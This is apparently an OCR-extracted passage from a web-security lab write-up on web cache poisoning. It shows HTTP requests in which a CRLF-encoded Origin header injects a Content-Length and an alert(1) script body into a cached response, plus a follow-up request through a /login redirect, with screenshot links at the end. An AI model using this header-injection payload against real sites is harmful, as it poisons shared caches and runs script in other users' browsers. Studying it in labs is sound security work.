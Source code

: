 ```bash
Response:

Access-Control-Allow-Origin: check.com
Set-Cookie: session=AKY1vMCIeRovgDBmiE7ue5HNsYpXk1ak; Secure; HttpOnly; SameSite=None
Set-Cookie: utm_content=z; Secure; HttpOnly

Change:

Origin: check.com

To

Origin: x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$$$

Response:

X-Cache: hit

Body:

alert(1)

Change:

GET /js/localize.js?lang=en&utm_content=z&cors=1&x=1 HTTP/1.1
Origin: x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$$$

To

GET /login?lang=en?utm_content=x%26cors=1%26x=1$$Origin=x%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)$$%23 HTTP/1.1

Response:

HTTP/1.1 302 Found

X-Cache: hit

Right-click response -> Show response in browser -> Copy -> Paste in browser

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220605192748.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220605192804.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220605192834.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220605192858.png)
